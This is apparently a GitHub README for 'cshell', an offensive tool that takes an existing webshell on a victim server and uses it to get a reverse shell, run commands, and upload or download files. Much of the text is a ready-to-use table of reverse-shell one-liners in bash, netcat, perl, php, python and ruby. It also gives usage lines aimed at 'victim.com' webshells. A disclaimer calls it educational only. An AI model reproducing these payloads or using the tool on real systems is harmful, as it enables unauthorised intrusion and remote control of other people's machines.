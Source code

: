# CSHELL  
***  
[![PyPI version fury.io](https://badge.fury.io/py/ansicolortags.svg)](https://pypi.python.org/pypi/cshell/)  [![GitHub license](https://img.shields.io/github/license/Naereen/StrapDown.js.svg)](https://github.com/0z09e/cshell/LICENSE)  
  
***  
This script takes a working webshell as an argument and can perform the following operations  
- rev : This module sends a payload according to your choice and triggers that payload on the target webshell</br>  
- web : This module can execute direct command on the webshell using persisted working directory and error message</br>  
- lstnr : This module generates a payload and copies it to the clipboard. It can also start a listener, and also encodes the payload [Both are Optional]  
  
## Install  
- From PIP library :   
  ``` 
  pip3 install cshell  
  ```  
- From Github :   
  ``` 
  git clone https://github.com/0z09e/cshell.git  
  cd cshell  
  sudo python3 setup.py install  
  ```  
    
## Usage  
- **Help Menu :**  
```  
$ cshell --help  
usage: cshell.py [-h] [--payloads] {rev,web,lstnr} ...  
  
positional arguments:  
  {rev,web,lstnr}  
  
optional arguments:  
  -h, --help       show this help message and exit  
  --payloads       List all payload formats for rev  
  
web     Direct command execution on the webshell with error message  
rev     Reverse shell from a working webshell  
lstnr   Generate payload, copy it to your clipboard and start a listener[Optional]  
```

- **Getting a reverse shell from a webshell :**   
	- GET Method  : `cshell rev -i <Interface or IP. Example : 127.0.0.1 or lo> <Target URL with REV as command. Example : http://victim.com/webshell.php?cmd=REV>`  
	- POST Method : `cshell rev -i <Interface or IP. Example : 127.0.0.1 or lo> -m POST -d <Post DATA in JSON format with REV as command. Example : '{"cmd" : "REV"}'> <Target URL. Example : http://victim.com/webshell.php>`  
- **Interacting with a webshell** :   
	- GET Method : `cshell web <Target URL with WEB as command. Example : http://victim.com/webshell.php?cmd=WEB>`  
	- Post Method : `cshell rev -m POST -d <Post DATA in JSON format with WEB as command. Example : '{"cmd" : "WEB"}'> <Target URL. Example : http://victim.com/webshell.php>`  
- **Generating a payload** :   
	- `cshell lstnr -f <Format. Example : bash> -i <Interface or IP. Example : 127.0.0.1 or lo>  -p <Port. Example : 1337>`
  

## Custom commands for WEB module : 
- `help` - Help menu of custom commands  
- `clear` - Clear the screen  
- `exit` - Exit the shell  
- `upload` - Upload a file into the remote server  
- `download` - Download a file from the remote server  


## Payloads  
``` 
$ cshell --payloads  
========================================================================================================  
Format-Name                     Payload  
========================================================================================================  
bash-196                        0<&196;exec 196<>/dev/tcp/127.0.0.1/1337; bash <&196 >&196 2>&196  
bash                            bash -i >& /dev/tcp/127.0.0.1/1337 0>&1  
bash-read-line                  exec 5<>/dev/tcp/127.0.0.1/1337;cat <&5 | while read line; do $line 2>&5 >&5; done  
bash-5                          bash -i 5<> /dev/tcp/127.0.0.1/1337 0<&5 1>&5 2>&5  
bash-udp                        bash -i >& /dev/udp/127.0.0.1/1337 0>&1  
nc-mkfifo                       rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 127.0.0.1 1337 >/tmp/f  
nc                              nc -e /bin/bash 127.0.0.1 1337  
nc-c                            nc -c /bin/bash 127.0.0.1 1337  
ncat-e                          ncat 127.0.0.1 1337 -e /bin/bash  
perl                            perl -e 'use Socket;$i="127.0.0.1";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("bash -i");};'  
php-exec                        php -r '$sock=fsockopen("127.0.0.1",1337);exec("bash <&3 >&3 2>&3");'  
php-shell-exec                  php -r '$sock=fsockopen("127.0.0.1",1337);shell_exec("bash <&3 >&3 2>&3");'  
php-system                      php -r '$sock=fsockopen("127.0.0.1",1337);system("bash <&3 >&3 2>&3");'  
php-passthru                    php -r '$sock=fsockopen("127.0.0.1",1337);passthru("bash <&3 >&3 2>&3");'  
php-popen                       php -r '$sock=fsockopen("127.0.0.1",1337);popen("bash <&3 >&3 2>&3", "r");'  
python                          python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python-export                   export RHOST="127.0.0.1";export RPORT=1337;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'  
python3                         python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'  
python3-export                  export RHOST="127.0.0.1";export RPORT=1337;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")  
ruby                            export RHOST=127.0.0.1;export RPORT=1337;ruby -rsocket -e 'exit if fork;c=TCPSocket.new(ENV["RHOST"],ENV["RPORT"]);while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'  
```  
## Disclaimer
- Only for educational purpose, The creator of this tool won't be responsible to anything.

